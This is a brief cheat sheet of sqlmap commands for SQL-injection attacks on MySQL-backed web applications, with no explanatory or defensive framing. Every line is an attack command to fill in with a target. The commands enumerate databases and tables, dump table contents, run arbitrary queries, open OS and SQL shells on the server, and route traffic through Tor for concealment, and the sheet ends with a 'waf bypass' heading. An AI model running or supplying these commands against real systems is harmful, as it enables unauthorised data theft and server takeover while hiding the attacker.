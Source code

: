 # Enumerate databases
sqlmap --dbms=mysql -u "$URL" --dbs

# Enumerate tables
sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --tables

# Dump table data
sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" -T "$TABLE" --dump

# Specify parameter to exploit
sqlmap --dbms=mysql -u "http://www.example.com/param1=value1&param2=value2" --dbs -p param2

# Specify parameter to exploit in 'nice' URIs
sqlmap --dbms=mysql -u "http://www.example.com/param1/value1*/param2/value2" --dbs # exploits param1

# Get OS shell
sqlmap --dbms=mysql -u "$URL" --os-shell

# Get SQL shell
sqlmap --dbms=mysql -u "$URL" --sql-shell

# SQL query
sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --sql-query "SELECT * FROM $TABLE;"

# Use Tor Socks5 proxy
sqlmap --tor --tor-type=SOCKS5 --check-tor --dbms=mysql -u "$URL" --dbs


# waf bypass

